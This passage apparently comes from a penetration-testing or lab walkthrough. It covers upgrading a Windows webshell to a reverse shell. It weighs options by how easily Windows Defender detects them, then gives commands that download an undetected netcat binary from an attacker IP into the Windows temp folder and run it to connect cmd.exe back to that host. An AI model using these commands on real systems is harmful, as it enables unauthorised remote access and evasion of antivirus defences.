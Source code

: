 # Compiling Netcat & Reverse Shell

Now that we have our webshell, it's time to use it to get a full reverse shell. Unlike with Linux, Windows tends to be more difficult to get a reverse shell as Windows doesn't have as many scripting languages installed

There are a few options we can look at when trying to get a reverse shell in Windows. These include:
- Powershell: Whilst this is a fairly typical route, it tends to be very detectable by Windows Defender
- PHP Reverse Shell: We know that the server has PHP installed, however, like with powershell shells, they tend to be very detectable by Windows Defender
- MSFVenom: Again this is a fairly straight forward route but is fairly easily detectable by Windows Defender
- Netcat: Uploading a binary of netcat to the server is a fairly straight forward approach. The only thing to be careful of is to use a binary of nc that isn't known to Windows Defender as is the the case with the one that comes with Kali

We can get a copy of nc undetected by Kali with the following command: **git clone https://github.com/int0x33/nc.exe/**

curl http://10.50.193.137:80/nc.exe -o c:\\windows\\temp\\nc-gnome787.exe

powershell.exe c:\\windows\\temp\\nc-gnome787.exe 10.50.193.137 20000 -e cmd.exe